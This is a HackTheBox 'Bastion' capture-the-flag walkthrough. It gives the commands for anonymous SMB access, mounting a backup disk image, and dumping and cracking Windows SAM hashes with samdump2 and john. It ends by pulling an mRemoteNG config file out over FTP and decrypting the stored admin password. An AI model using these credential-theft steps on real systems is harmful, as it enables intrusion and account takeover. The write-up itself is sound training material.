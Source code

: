 # Bastion [htb](https://app.hackthebox.com/machines/Bastion)
![bastion-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastion/img/bastion-01.png)


## Recon

Lets add the target to our `/etc/hosts` file:

![hosts-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastion/img/hosts-02.png)


Now we can enumerate the target with:

`nmap -sC -sV -A -p- bastion.htb -oN nmap.result`

![nmap-res-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastion/img/nmap-res-03.png)

We have the following:

+ SSH on port 22. 
+ RPC endpoint mapper on port 135.
+ Netbios on port 139. 
+ SMB on port 445. 
+ HTTP API ports 5985 and 47001. 
+ Other RPC related ports. 

The target seems to be running a 2016 Windows server. Lets start by taking a look at the SMB, perhaps we
can access resources without authentication? After that well take a look at the HTTP API ports. 


## SMB port 445

Lets see if we can list out the shares with a null session:

`smbclient -N -L \\\\bastion.htb\\`

![shares-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastion/img/shares-04.png)

Yes we can, this is bad. If we can list information without authintication we can probably connect 
to a share as well. lets try the the `Backups` share:

`smbclient --no-pass //bastion.htb/Backups`

![backups-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastion/img/backups-05.png)

We can see we have a `WindowsImageBackup` folder, a `.tmp` file, and a `note.txt`
The note simply tells us not to copy the eniter Backups share through the VPN:

![note-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastion/img/note-06.png)

The `.tmp` file is empty, but the most interesting thing here is the `WindowsImageBackup` folder. 
If we `cd` into the following path inside it with: 

`cd \WindowsImageBackup\L4mpje-PC\"Backup 2019-02-22 124351"`

Then run `ls` we can see the following:

![vhd-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastion/img/vhd-07.png)

There are more `.xml` files below, but we are primarly interested in thoes `.vhd` files. 
VHD (Virtual Hard Disk) files are disk image formats that store a computer's entire hard drive.

The first disk is the boot sector, ive had a look around it, not much there. The second disk is what we want. 

Once we download the disk to your kali machine, we can examine the `.vhd` files with a 
suite of tools called `libguestfs-tools`, you may need to install this on your system with:

`apt install libguestfs-tools`.

Now we can list out the partitions on the virtual disk with:

`virt-filesystems -a 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd`

![partitions-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastion/img/partitions-08.png)


Only one partition, Lets mount it with:

`guestmount -a 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd -m /dev/sda1 --ro /mnt/bastion`

If you pay close attention, youll notice this is the Windows OS installation folder (the C drive).
This means that the SAM file is in here. If we cd into:

`Windows/System32/config`

We can see the SAM file, along with the syskey to read it: 

![sam-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastion/img/sam-09.png)

Now all we need to do to read this file is use `samdump2`:

`samdump2 SYSTEM SAM`

![samdump-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastion/img/samdump-10.png)

I've tried to use `psexec` to get a shell with the NTLM hash, but that failed. I also tried other tools from the `impacker` suite, but nothing worked. So i decided to decrypt the NTLM hash locally and try to log in to the SSH. 

First, save the NTLM portion of the hash to a file: 

`echo '26112010952d963c8dc4217daec986d9' > ntlm_hash.txt`

Next, use `john` to decrypt the hash:

`john --wordlist=/usr/share/wordlists/rockyou.txt --format=NT ntlm_hash.txt`

![decrypt-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastion/img/decrypt-11.png)

Now we can login to the ssh:

![shell-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastion/img/shell-12.png)

## Privilege Escalation


If we take a look at our user's `AppData/Roaming` folder we can see an interesting app:

![remoteng-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastion/img/remoteng-13.png)

mRemoteNG is a fork of mRemote: an open source, tabbed, multi-protocol, remote connections manager for Windows. remote connection means passwords.


If we cd into this folder we can find the config file that stroes the accounts:

![app-dir-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastion/img/app-dir-14.png)

If we open this file we can see the following:

![admin-hash-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastion/img/admin-hash-15.png)

The admin probably used this software to connect to the Domain Controller. Now we need to decrypt the 
password. 

If we search google we can find the following [Github](https://github.com/gquere/mRemoteNG_password_decrypt) This tool should help us decrypt the password. All we nned is to transfer the `confCons.xml` file to our kali machine. 

To do that i start an FTP server with:

`python -m pyftpdlib -p 21 --write`

Then i connect to the FTP from the windows target and copy the file over:

![ftp-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastion/img/ftp-16.png)


Now we can decrypt the file with:

`./mremoteng_decrypt.py confCons.xml`

![decrypt-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastion/img/decrypt-17.png)


The low-level user password does match what we found earlier in the SAM file, lets try to connect to the 
SSH as the admin user: 

![root-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastion/img/root-18.png)
